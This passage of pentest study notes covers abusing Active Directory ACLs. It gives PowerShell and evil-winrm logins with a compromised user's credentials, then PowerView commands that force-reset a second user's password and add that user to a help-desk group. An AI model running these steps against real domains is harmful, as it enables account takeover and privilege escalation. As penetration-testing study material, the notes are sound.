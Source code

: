 ```bash
$SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force   # Store password securely
$Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USER>', $SecPassword)  
Enter-PSSession -ComputerName <TARGET> -Credential $Cred                 # Remote session as <USER>

# --- Method 3: Runas with /netonly (if machine is not domain-joined)
runas /netonly /user:<DOMAIN>\<USER> powershell.exe   # Use <USER> creds only for network access

# --- Method 4: Evil-WinRM (from attacker box like Kali/Parrot/Ubuntu)
evil-winrm -i <TARGET-IP> -u <USER> -p '<PASSWORD>'   # Remote shell as <USER>
```

>- If you **log in as `<USER-1>`** (Method A) → You’re already that user, so no `-Credential` in PowerView
>- If you **don’t log in, but have their creds** (Method B) → Use `-Credential $Cred`flag in PowerView
#### 1- Abusing _ForceChangePassword_ **ACLs**
![[Pasted image 20250817215631.png]]

So, first, we must ==authenticate as `<USER-1>` by making the $Cred object value==  if we didn't Otherwise we could ==skip the authenticate step  by remove the -Credential parameter== then force change the password of the user. 
```powershell
# Creating a PSCredential Object (the creds for <USER-1>)
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USER-1>', $SecPassword) 

# Creating a SecureString Object (NEW <USER-2> PASSWORD)
$newPassword = ConvertTo-SecureString '<NEW USER-2 PASSWORD HERE>' -AsPlainText -Force

# Changing the User's Password
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity <USER-2> -AccountPassword $newPassword -Credential $Cred -Verbose
```
==[+] we change the password of the `<USER-2>.` so now we have the creds of that user==

**Creating a SecureString Object for `<USER-2>`:**
```powershell
# creds for user-2
$SecPassword = ConvertTo-SecureString 'NEW USER-2 PASSWORD HERE' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('<DOMIAN>\<USER-2', $SecPassword) 
```

#### 2- Abusing _GenericWrite_ **ACLs** Over a Group
![[Pasted image 20250817215649.png]]
**USER-2** have the **GenericWrite** Right over  **HELP DESK LEVEL 1**
we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group

```powershell
# confirm that our user is not a member of the target group
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
 
# creds for user-2 (we alredy defain it)
$SecPassword = ConvertTo-SecureString 'NEW USER-2 PASSWORD HERE' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('<DOMIAN>\<USER-2', $SecPassword) 

Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members '<USER-2>' -Credential $Cred2 -Verbose

# Confirming <>user-2 was Added to the Group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName #=> <USER-2> 
```
#### 3- Abusing _GenericAll_ **ACLs** Over a Group
![[Pasted image 20250817222549.png]]